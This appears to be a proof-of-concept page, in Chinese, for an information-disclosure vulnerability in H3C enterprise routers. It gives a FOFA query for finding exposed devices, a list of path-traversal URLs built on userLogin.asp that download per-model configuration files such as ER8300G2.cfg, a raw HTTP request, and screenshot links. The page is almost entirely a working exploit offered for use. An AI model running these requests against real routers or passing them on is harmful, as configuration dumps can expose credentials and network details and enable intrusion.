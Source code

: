## H3C路由器userLogin.asp信息泄漏漏洞



## fofa

```
app="H3C-Ent-Router"
```



## poc

```
/userLogin.asp/../actionpolicy_status/../ER8300G2.cfg
/userLogin.asp/../actionpolicy_status/../M60.cfg
/userLogin.asp/../actionpolicy_status/../GR8300.cfg
/userLogin.asp/../actionpolicy_status/../GR5200.cfg
/userLogin.asp/../actionpolicy_status/../GR3200.cfg
/userLogin.asp/../actionpolicy_status/../GR2200.cfg
/userLogin.asp/../actionpolicy_status/../ER8300G2-X.cfg
/userLogin.asp/../actionpolicy_status/../ER8300G2.cfg
/userLogin.asp/../actionpolicy_status/../ER6300G2.cfg
/userLogin.asp/../actionpolicy_status/../ER5200G2.cfg
/userLogin.asp/../actionpolicy_status/../ER5200.cfg
/userLogin.asp/../actionpolicy_status/../ER5100.cfg
/userLogin.asp/../actionpolicy_status/../ER3260G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3260.cfg
/userLogin.asp/../actionpolicy_status/../ER3200G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3200.cfg
/userLogin.asp/../actionpolicy_status/../ER3108GW.cfg
/userLogin.asp/../actionpolicy_status/../ER3108G.cfg
/userLogin.asp/../actionpolicy_status/../ER3100G2.cfg
/userLogin.asp/../actionpolicy_status/../ER3100.cfg
/userLogin.asp/../actionpolicy_status/../ER2200G2.cfg
```

```
GET /userLogin.asp/../actionpolicy_status/../ER8300G2.cfg HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Host:
```

![image-20240524233044125](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242330199.png)

![image-20240524233826952](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405242338044.png)